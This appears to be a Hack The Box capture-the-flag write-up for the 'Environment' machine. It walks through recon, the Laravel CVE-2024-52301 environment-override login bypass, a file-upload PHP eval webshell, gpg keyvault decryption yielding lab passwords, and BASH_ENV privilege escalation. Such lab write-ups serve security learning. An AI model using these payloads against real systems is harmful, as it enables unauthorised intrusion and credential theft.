---
title: 'HTB-Environment'
published: 2025-09-18
draft: false
toc: true
---
**Start 12:00 14-07-2025**

---
```
Scope:
10.10.11.67
```
# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -vvvv -p- -T5 --min-rate=5000 -Pn environment.htb                                                           [0]

Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
80/tcp open  http    syn-ack nginx 1.22.1
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: nginx/1.22.1
|_http-title: Save the Environment | environment.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/TCP - HTTP


 
I then found a `/login` endpoint using `gobuster` which I analysed using `caido`:

### Gobuster






### CVE-2024-52301

I tried changing some params like `remember` which showed this:



So I intercepted the request, modified it and viewed the response in the browser:



This part is the most interesting of the bunch:

```php
if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs
	$request->session()->regenerate();
	$request->session()->put('user_id', 1);
	return redirect('/management/dashboard');
}
```



Scrolling down I find [this article](https://dev.to/saanchitapaul/high-severity-laravel-vulnerability-cve-2024-52301-awareness-and-action-required-15po):



I started looking for a PoC and found [one on GitHub](https://github.com/Nyamort/CVE-2024-52301):



I tried it out:

```URL
POST /login?--env=preprod HTTP/1.1
...
_token=C8CT23Tj0n3u2iNB1mfMVKQBQtx9HCRvdRsXYJK4&email=test%40test.com&password=admin&remember=True
```



It worked!



### File Upload Attack

I started looking around and found a possible **File Upload Attack**:


It was now time to intercept the request and manipulate it:





So I went ahead and modified it as follows:

```bash
Content-Disposition: form-data; name="upload"; filename="webshell.phtml"
Content-Type: image/jpg

GIF89a
<?php eval($_GET["cmd"]);?>
```



And in the response we can see the url:



>[!caution]
>This however would upload the file, but would not give us execution, we had to find another way.

```bash
Content-Disposition: form-data; name="upload"; filename="web.php."
Content-Type: image/jpg

GIF89a
<?php eval($_GET["cmd"]);?>
```



Now going over to the uploaded file page, we didn't have full RCE yet:



However it did execute commands such as `phpinfo();`



# Foothold
## Shell as www-data

I had to wrap it in the following code to get execution via `php`:



Using this knowledge I wrapped my reverse shell as follows:


And finally got a hit on my listener:



I then started enumeration of the target:



### user.txt

As *www-data* we already have access to *hish*'s `/home` directory, so I can easily get the `user.txt` flag:



## gnupg keys

I found some interesting stuff:



This could potentially give me a way to crack the `keyvault.gpg` file, which might hold some creds.



### Decrypting gnupg

We can easily decrypt this using the following techniques:

```bash
cp -r .gnupg/ /tmp/gnupg
chmod -R 700 /tmp/gnupg/
gpg --homedir /tmp/gnupg/ --list-secret-keys
gpg --homedir /tmp/gnupg/ --output /tmp/creds.txt --decrypt backup/keyvault.gpg 
cat /tmp/creds.txt 
```



```
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```



It indeed still works, let's move laterally.

## Lateral Movement





So what can we do with this?

# Privilege Escalation
## BASH_ENV Injection

I can easily exploit it as follows:



>[!tldr]
>But why does this work?
>- `/usr/bin/systeminfo` is a **Bash script** (`file /usr/bin/systeminfo` confirmed this).
>- The script is executed via `sudo`, running as root. 
>- When Bash runs a non-interactive shell to execute the script, **it looks for `BASH_ENV` and sources it if set**.
>- You set `BASH_ENV=./root.sh`, where `root.sh` contains `/bin/bash -p`.   
>- So instead of just running the script commands, Bash first runs your root shell.
>- This results in a **root shell spawned before the script output**, effectively escalating privileges.

### root.txt


---

**Finished 14:01 14-07-2025**

[^Links]: [[Hack The Box]]

#BASH_ENV #FileUploadAttacks #gnupg 
